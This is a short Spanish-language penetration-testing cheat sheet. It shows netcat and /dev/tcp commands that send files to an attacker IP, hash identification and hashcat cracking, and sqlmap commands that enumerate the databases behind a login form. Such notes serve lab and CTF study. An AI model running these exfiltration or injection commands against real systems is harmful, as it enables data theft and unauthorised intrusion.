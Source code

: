 # FILE TRANSFER

Utilizando netcat:

```shell
cat file | nc ATTACKER_IP
```

Otra manera de hacerlo si no es un fichero es:

```shell
cat file.zip > /dev/tcp/IP/PORT
```

Desde la IP atacante deberemos ejecutar:

```shell
nc -nlvp PORT > file
```

# IDENTIFY HASHES

Para comprobar los hashes podemos utilizar:

```shell
sha256sum hash
md5sum hash
sha1sum hash
```

Para conocer el tipo de hash usaremos:

```shell
hashid hash
```

```shell
hash-identifier
```

```shell
hashcat hash wordlist
```

# SQLMAP

Obtener las bases de datos disponibles:

```shell
sqlmap -u http://IP/login.html --dbs --batch --forms
```

Visualizar las tablas de una base de datos concreta:

```shell
sqlmap -u http://IP/login.html -D database --tables --batch --forms
```
